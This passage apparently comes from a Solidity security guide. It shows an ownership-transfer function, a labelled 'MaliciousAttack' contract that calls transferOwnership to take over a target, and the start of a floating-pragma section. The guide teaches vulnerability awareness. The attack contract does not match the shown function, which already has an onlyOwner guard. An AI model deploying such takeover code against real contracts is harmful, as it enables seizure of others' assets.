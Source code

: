 ```
    function transferOwnership(address newOwner) public onlyOwner {
        require(newOwner != address(0), "New owner cannot be zero address");
        emit OwnershipTransferred(owner, newOwner);
        owner = newOwner;
    }
}

```

## Attack Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IVulnerableOwnership {
    function transferOwnership(address newOwner) external;
}

contract MaliciousAttack {
    IVulnerableOwnership public vulnerableContract;

    constructor(address _vulnerableContractAddress) {
        vulnerableContract = IVulnerableOwnership(_vulnerableContractAddress);
    }

    // This function exploits the vulnerable contract by transferring its ownership to the attacker.
    function attack(address _targetOwner) public {
        vulnerableContract.transferOwnership(_targetOwner);
    }

    // This function initiates the attack to make the attacker the owner.
    function attackToSelf() public {
        vulnerableContract.transferOwnership(address(this));
    }
}
```

## <font color="yellow"> Floating Pragma <a id="typography"></a></font>


## Description

Contracts should be deployed with the same compiler version and flags that they have been tested with thoroughly. Locking the pragma helps to ensure that contracts do not accidentally get deployed using, for example, an outdated compiler version that might introduce bugs that affect the contract system negatively.

## Code sample
